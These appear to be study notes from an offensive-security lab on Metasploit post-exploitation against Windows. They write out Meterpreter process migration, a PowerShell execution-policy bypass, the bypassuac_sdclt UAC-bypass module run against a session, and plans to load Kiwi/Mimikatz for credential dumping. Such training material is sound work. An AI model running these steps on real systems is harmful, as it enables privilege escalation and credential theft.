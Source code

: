 ```
ps
migrate 8052
```

We should note that we are only able to migrate into processes that execute at the same (or lower) integrity and privilege level3 than that of our current process.

Instead of migrating to an existing process or a situation in which we won't find any suitable processes to migrate to, we can use the execute Meterpreter command. This command provides the ability to create a new process by specifying a command or program

```
execute -H -f notepad
migrate 2720
```

### Post-Exploit Modules
Sometimes UAC prevents us from performing admin ops remotely.  Need to upgrade integrity level.

Get integrity level
```
shell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```

can background session and search for modules
```
^Z
bg
search UAC
```

One very effective UAC bypass on modern Windows systems is exploit/windows/local/bypassuac_sdclt, which targets the Microsoft binary sdclt.exe. This binary can be abused to bypass UAC by spawning a process with integrity level High.6

```
use exploit/windows/local/bypassuac_sdclt
show options
set SESSION 9
set LHOST 192.168.119.4
run
```

now recheck our shell
```
shell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```

we can also load modules directly into existing session

One great example of this is Kiwi, which is a Meterpreter extension providing the capabilities of Mimikatz. Because Mimikatz requires SYSTEM rights, let's exit the current Meterpreter session, start the listener again, execute met.exe as user luiza in the bind shell, and enter getsystem.
